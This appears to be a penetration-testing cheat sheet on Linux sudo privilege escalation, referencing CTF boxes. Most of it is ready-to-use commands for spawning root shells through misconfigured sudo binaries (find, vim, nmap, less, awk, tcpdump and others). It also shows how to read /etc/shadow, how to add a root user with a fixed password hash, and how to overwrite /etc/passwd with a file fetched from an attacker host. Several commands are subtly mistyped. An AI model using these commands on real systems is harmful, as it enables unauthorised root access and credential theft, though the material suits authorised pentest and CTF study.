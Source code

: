 # 1\_SUDO

## Background

* Substitute User and Do 
* Users can execute command under root \(or other users\) using their own passwords instead of root’s one or without password depending upon sudoers setting.
* Settings for the local Host are defined in the /etc/sudoers/ file.

## Syntax

User Terminals =\(Acting as user\) Allowed Command Examples:

```text
root ALL=(ALL) ALL
```

* Root user can execute from ALL terminals, acting as ALL \(any\) users, and run ALL \(any\) command.

  ```text
  touhid ALL= /sbin/poweroff
  ```

* Touhid can from any terminal, run the command power off using touhid’s user password.

  ```text
  touhid ALL = (root) NOPASSWD: /usr/bin/find
  ```

* Touhid can from any terminal, run the command find as root user without password.

## Attack Vector

1. Display the SUDO commands available to the current user.

   ```text
   sudo -l
   ```

2. Identify Vulnerable Binaries

   [GTFOBins](https://gtfobins.github.io/)

### Cat \(Vulnhub:SkyTower\)

You can read any file on the system. If you are restricted to reading all the files under a certain directory \(/accounts/\*\), you can use directory traversal to break out of this restriction to read any file you want.

```text
sudo cat /accounts/../etc/shadow
```

### CP

Copy and overwrite the /etc/shadow/ file with a new entry for a root user.

```text
Newuser:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:0:0:root:/root:/bin/bash
```

* Password is "test".

  **Find**

  ```text
  sudo find /etc/passwd -exec /bin/sh \; 
  sudo find /bin -name nano -exec /bin/sh \; 
  sudo find / -exec bash -i \; 
  find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' ;
  ```

  **Vim**

  ```text
  sudo vim -c '!sh'
  ```

  **Nmap**

  **Old Way**

  ```text
  sudo nmap --interactive 
  nmap> !sh
  ```

* Note : nmap –interactive option not available in latest nmap.

  **New Way**

  ```text
  echo "os.execute('/bin/sh')" > /tmp/shell.nse && sudo nmap --script=/tmp/shell.nse
  ```

  **Man**

  ```text
  sudo man man
  ```

* After that press !sh and hit enter.

  **Less/More**

  ```text
  sudo less /etc/hosts
  ```

* After that press !sh and hit enter. 

  ```text
  sudo more /etc/hosts
  ```

* After that press !sh and hit enter.

  **AWK**

  ```text
  sudo awk 'BEGIN {system("/bin/sh")}'
  ```

  **Nano**

  A text editor that can be used to overwrite the passwd file with a new root user and predefined password.

  ```text
  sudo nano  /etc/passwd 
  Newuser:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:0:0:root:/root:/bin/bash 
  Su newuser
  ```

* Password is "test".

  **Wget \(ippsec:Sunday\)**

  You can download a copy of the target passwd file, change it, then re-upload it to the target machine.

  1. Send the passwd file from the target box to your attacker box through various transfer means.
  2. Add a new root user with a password of "test".

     ```text
     Newuser:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:0:0:root:/root:/bin/bash
     ```

  3. Re-upload the passwd file from the attacker box to the target box.

     ```text
     sudo wget [attacker IP]:[port]/passwd -O /etc/passwd
     ```

* Or substitute in /etc/shadow instead of /etc/passwd if the shadow file is used \(which is likely\).

  **Apache**

  Can't get a shell with this binary but can display file contents.

  ```text
  sudo apache2 -f /etc/shadow/
  ```

  **Mount**

  ```text
  sudo mount -o bind /bin/bash /bin/mount 
  sudo mount
  ```

  **TCPdump**

  ```text
  echo $’id\ncat /etc/shadow’ > /tmp/.test 
  Chmod +x /tmp/.test 
  Sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
  ```

  **ZIP**

  ```text
  Sudo zipfile.zip [random text file]  -T –-unzip-command="sh –c /bin/bash"
  ```

